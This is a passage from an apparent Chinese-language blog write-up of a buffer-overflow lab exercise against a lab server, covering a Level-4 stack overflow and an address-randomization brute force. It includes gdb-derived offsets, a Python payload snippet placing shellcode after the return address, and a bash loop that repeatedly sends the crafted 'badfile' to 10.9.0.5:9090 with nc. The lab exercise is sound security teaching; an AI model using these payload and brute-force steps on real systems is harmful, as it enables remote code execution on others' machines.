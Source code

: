 攻击效果如图：

![Screenshot 2024-04-03 at 4.07.58 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_4.07.58_AM.png)

# Task 5: Level-4 Attack

这个task与上一个的区别是返回地址和buffer离得很近，只有104个byte，而shellcode有165个byte。

![Screenshot 2024-04-03 at 5.10.31 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_5.10.31_PM.png)

在’stack.c’中发现，首先输入会从 `fread` 中被读入，而且 `fread` 是不会因为0而读取终止的，所以可以考虑去寻找 `fread` 读入的地址。

首先使用 `gdb` 动态调试获得了 `fread` 读入地址以及 `rbp` 和buffer的地址，然后计算得出偏移量。

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled.png)

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%201.png)

偏移量计算出来之后，只需要利用现在的 `rbp` 的值加上他与 `fread` 的目的地址的偏移量，再加上shellcode在输入中的偏移量。我用的是最极端的一个情况，shellcode紧跟着返回地址：

```python
##################################################################
# Put the shellcode somewhere in the payload
start = 112             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00007fffffffe100 + 1072 + 112 # Change this number
offset = 104            # Change this number
```

攻击效果如图：

![Screenshot 2024-04-03 at 5.09.48 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_5.09.48_PM.png)

# Task 6: Experimenting with the Address Randomization

这个task需要把随机化地址重新开启，并且尝试暴力攻击32位的程序（64位会比32位复杂得多）。32位程序最多只能让19位进行随机化。

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

经过测试发现每次 `echo` 返回的地址都不同：

![Screenshot 2024-04-03 at 6.08.06 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_6.08.06_PM.png)

这道题就是运行如下脚本爆破一下就好。

```bash
#!/bin/bash
SECONDS=0
value=0
while true; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    cat badfile | nc 10.9.0.5 9090
done
```
